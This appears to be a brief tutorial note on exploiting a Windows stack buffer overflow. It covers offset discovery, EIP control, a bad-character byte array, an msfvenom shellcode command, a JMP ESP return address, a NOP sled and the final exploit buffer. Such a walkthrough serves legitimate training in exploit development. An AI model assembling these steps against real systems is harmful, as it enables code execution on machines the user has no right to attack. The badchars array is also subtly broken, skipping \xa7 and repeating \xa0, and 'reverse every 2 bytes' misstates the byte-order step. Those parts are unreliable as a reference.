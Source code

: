 # Windows Buffer Overflow

First, create a payload that will 100% overflow the buffer. It could be either generated with msfvenom or with continous "A"s. I prefer the A's because it guarantees no bad characters in case the program filters those out.&#x20;

Then, start to binary search or just search for the offset that will just overflow the buffer. Then, try to control EIP with `b'\xef\xbe\xad\xde'` and see if Immunity Debugger shows it. If it does, we can move on.

I will set an offset of `b'\x43'*4`, which isn't completely necessary but is helpful. Now, I can start fuzzing for bad characters.

```
badchars = b""
badchars+=b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
badchars+=b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars+=b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
badchars+=b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
badchars+=b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
badchars+=b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars+=b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
badchars+=b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars+=b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
badchars+=b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars+=b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa8\xa9\xa0\xaa\xab\xac\xad\xae\xaf"
badchars+=b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars+=b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
badchars+=b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars+=b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
badchars+=b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Remove x00 by default and probably x0a, and then look where the string of where it terminates to remove that bad character.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

You can see that after 0x09, the string of bytes terminates, so you can conclude that 0x0a is a bad character. Once you eliminate all of those, you can move onto shellcode.

```
msfvenom -a x86 --platform Windows -p windows/exec CMD="cmd.exe" -f py -b "\x00\x0a\x73\x95\xba\xf7" -v shellcode 
```

Paste this into your program. Also, we will need to find EIP. This just means to find a JMP ESP instruction, which could be at 0x148011b6, and then reverse every 2 bytes to get `eip = b'\xb6\x11\x80\x14'` Now we can add a NOP sled with `nops = b"\x90" * 10` and then create our final buffer.

```
inputBuffer = filler + eip + offset + nops + shellcode
```

And you are complete.
